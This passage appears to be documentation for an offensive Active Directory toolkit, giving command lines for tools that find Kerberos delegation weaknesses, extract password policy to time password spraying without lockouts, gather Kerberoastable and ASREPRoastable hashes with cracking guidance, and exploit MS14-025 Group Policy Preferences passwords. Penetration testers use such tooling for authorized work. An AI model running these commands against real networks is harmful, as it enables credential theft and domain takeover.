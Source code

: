 Comprehensive delegation detection (unconstrained, constrained, RBCD):
```bash
python ldapseek.py iplist.txt -u 'DOMAIN\user' -p 'password' -v

# Output includes:
# - delegation_targets.txt (vulnerable accounts/computers)
# - DELEGATION_ATTACK_GUIDE.txt (Rubeus exploitation commands)
```

**Why it matters**: Delegation vulnerabilities can lead to Domain Admin via S4U2Self/S4U2Proxy attacks!

### Password Policy Extraction
**Tool: LDAPSeek**

Extracts domain password policy for safe password spraying:
```bash
python ldapseek.py iplist.txt -u 'DOMAIN\user' -p 'password' -v

# Output includes:
# - password_policy.txt (lockout threshold, complexity requirements)
# - USERS_ATTACK_GUIDE.txt (safe password spray commands)
```

**Why it matters**: Avoid account lockouts! Guide respects lockout policy and suggests safe spray timing.

### Kerberos Hash Cracking
**Tool: KerbSeek**

Enhanced hash output with cracking time estimates:
```bash
python kerbseek.py iplist.txt -u 'DOMAIN\user' -p 'password' -v

# Output includes:
# - spns.txt (Kerberoastable accounts)
# - asrep_users.txt (ASREPRoastable accounts)
# - KERBEROS_ATTACK_GUIDE.txt (hashcat/john commands + GPU timing)
```

**Why it matters**: Know if cracking is feasible before wasting time! Guide includes optimal hashcat parameters.

### GPP Password Extraction
**Tool: CredSeek**

Exploit MS14-025 vulnerability in Group Policy Preferences:
```bash
python credseek.py --gpp dclist.txt -v

# Output includes:
# - cred_details.txt (found GPP passwords)
# - GPP_ATTACK_GUIDE.txt (decryption methods, automated tools)
```
